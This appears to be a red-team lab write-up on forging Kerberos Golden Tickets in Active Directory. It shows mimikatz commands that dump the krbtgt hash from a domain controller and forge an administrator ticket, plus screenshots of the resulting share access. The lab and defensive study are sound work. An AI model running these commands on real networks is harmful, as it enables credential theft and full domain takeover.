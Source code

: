 ```yaml
---
description: Persistence and Privilege Escalation with Golden Kerberots tickets
---
```


# Kerberos: Golden Tickets

This lab explores an attack on Active Directory Kerberos Authentication. To be more precise - an attack that forges Kerberos Ticket Granting Tickets \(TGT\) that are used to authenticate users with Kerberos. TGTs are used when requesting Ticket Granting Service \(TGS\) tickets, which means a forged TGT can get us any TGS ticket - hence the golden.

This attack assumes a Domain Controller compromise where `KRBTGT` account hash will be extracted.

## Execution

Extracting the krbtgt account's password `NTLM` hash:

{% code-tabs %}
{% code-tabs-item title="attacker@victim-dc" %}
```csharp
mimikatz # lsadump::lsa /inject /name:krbtgt
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/kerberos-golden-krbtgt-hash.png)

Creating a forget golden ticket that automatically gets injected in current logon session's memory:

{% code-tabs %}
{% code-tabs-item title="attacker@victim-workstation" %}
```text
mimikatz # kerberos::golden /domain:offense.local /sid:S-1-5-21-4172452648-1021989953-2368502130 /rc4:8584cfccd24f6a7f49ee56355d41bd30 /user:newAdmin /id:500 /ptt
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/kerberos-golden-create.png)

Checking the ticket got created:

![](../../.gitbook/assets/kerberos-golden-klist.png)

Opening another powershell console with non-elevated privileges/non-admin account and trying to mount a `c$` share of `pc-mantvydas` and `dc-mantvydas` - not surprisingly, returns access denied:

![](../../.gitbook/assets/kerberos-golden-denied.png)

Now switching back to the console the attacker used to create a golden ticket \(local admin\) and again attempting to access `c$` share - this time a success:

![](../../.gitbook/assets/kerberos-golden-granted.png)

## Observations

![](../../.gitbook/assets/kerberos-golden-logon.png)

![](../../.gitbook/assets/kerberos-golden-share.png)

{% embed data="{\"url\":\"https://blog.stealthbits.com/complete-domain-compromise-with-golden-tickets/\",\"type\":\"link\",\"title\":\"Complete Domain Compromise with Golden Tickets \| Insider Threat Blog\",\"description\":\"Use Mimikatz to get password hashes for the KRBTGT account to forge Kerberos tickets \(TGTs\), Golden Tickets, to compromise all accounts in Active Directory.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blog.stealthbits.com/wp-content/uploads/2016/06/cropped-Logo\_STEALTHbits\_Orb\_Blue\_250x250-192x192.png\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://blog.stealthbits.com/wp-content/uploads/2017/05/Banner-Blog-Series-1024-x-326-3.jpg\",\"width\":1024,\"height\":326,\"aspectRatio\":0.318359375}}" %}

{% embed data="{\"url\":\"https://adsecurity.org/?p=1515\",\"type\":\"link\",\"title\":\"Detecting Forged Kerberos Ticket \(Golden Ticket & Silver Ticket\) Use in Active Directory – Active Directory Security\"}" %}


